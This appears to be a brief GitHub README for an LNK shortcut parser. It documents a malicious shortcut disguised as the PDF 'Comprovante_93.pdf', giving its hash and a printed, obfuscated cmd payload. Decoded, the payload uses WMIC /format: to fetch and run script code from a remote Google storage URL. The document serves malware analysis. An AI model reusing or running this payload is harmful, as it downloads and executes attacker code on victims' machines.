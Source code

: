 # LNK-parser
Template for parse undocumented LNK Functionality


- **Name**: Comprovante_93.pdf

- **md5**: 838df9550e37ad7382dfad232469471f

- **payload**:  /start /MIN %ComSpec% start /MIN %ComSpec% /V /C "set x=CIInc:IInc\IInc\IIncWIInciIIncndIIncowIIncs\IInc\sIIncysIInctIInceIIncmIInc3IInc2IInc\IInc\IIncwIIncbIInceIIncm\IInc\WIIncMIIncIIIncC.eIIncxIInce oIIncs gIInceIInct 6IInc6IIncrIInckIInc4IIncdIIncWIIncYIIncJIInc, iIIncuIInckIInc4IIncdIIncOIIncSIInc, fIIncrIInceIInceIIncvIInciIIncrIInctIIncuIIncaIInclIIncmIInceIIncmIIncoIIncrIIncyIInc /IIncfoIIncrmIIncat:"hIInctIInctIIncpIInc:IInc/IInc/sIInctIIncoIIncrIIncaIIncgIInceIInc.IIncgIIncoIIncoIIncgIInclIInceIIncaIIncpIInciIIncsIInc.IInccIIncoIIncmIInc/IInctIInceIIncsIInclIIncaIIncaIIncsIInctIInchIInc/IInc0IInc6IInc/IIncvIInc.IInctIIncxIInctIInc#IInc0IInc2IInc5IInc0IInc8IInc9IInc9IIncIIIncLIIncqIIncxIIncvIIncvIInc5IInc2IInc" &&echo %x:IInc=%|%ComSpec%"


Fixed LNK Template:

![Fixed LNK Template](https://i.imgur.com/XLYyNqn.png)
